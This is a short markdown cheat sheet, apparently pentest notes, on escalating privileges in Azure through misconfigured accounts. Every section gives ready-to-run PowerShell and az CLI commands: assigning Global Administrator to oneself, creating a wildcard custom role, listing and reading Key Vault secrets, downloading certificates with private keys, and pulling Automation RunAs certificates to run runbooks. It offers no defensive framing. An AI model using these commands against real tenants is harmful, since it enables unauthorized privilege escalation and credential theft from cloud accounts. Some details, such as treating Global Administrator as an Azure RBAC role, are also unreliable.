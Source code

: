 ## Privilege Escalation Using Misconfigured User Accounts in Azure

### Common Privilege Escalation Vectors
- **Role Assignment Permissions**: Users who can assign roles to themselves
- **Key Vault Access**: Access to secrets containing privileged credentials
- **Automation Account**: RunAs accounts with elevated permissions
- **Service Principal Abuse**: Leveraging service principal credentials

### Azure RBAC Privilege Escalation
```powershell
# Check current user permissions
Get-AzRoleAssignment -SignInName user@domain.com

# Attempt to assign Global Administrator role
New-AzRoleAssignment -SignInName user@domain.com -RoleDefinitionName "Global Administrator"

# Create custom role with excessive permissions
$role = [Microsoft.Azure.Commands.Resources.Models.Authorization.PSRoleDefinition]::new()
$role.Name = "Custom Admin Role"
$role.Actions.Add("*")
New-AzRoleDefinition -Role $role
```

### Key Vault Privilege Escalation
```bash
# List accessible key vaults
az keyvault list

# Access secrets from key vault
az keyvault secret show --name secret-name --vault-name vault-name

# List all secrets in vault
az keyvault secret list --vault-name vault-name

# Download certificate with private key
az keyvault certificate download --name cert-name --vault-name vault-name --file cert.pfx
```

### Automation Account Exploitation
```powershell
# Enumerate automation accounts
Get-AzAutomationAccount

# Get RunAs account certificate
Get-AzAutomationCertificate -AutomationAccountName automation-account -ResourceGroupName rg-name

# Execute runbook with elevated permissions
Start-AzAutomationRunbook -AutomationAccountName automation-account -Name runbook-name -ResourceGroupName rg-name
```

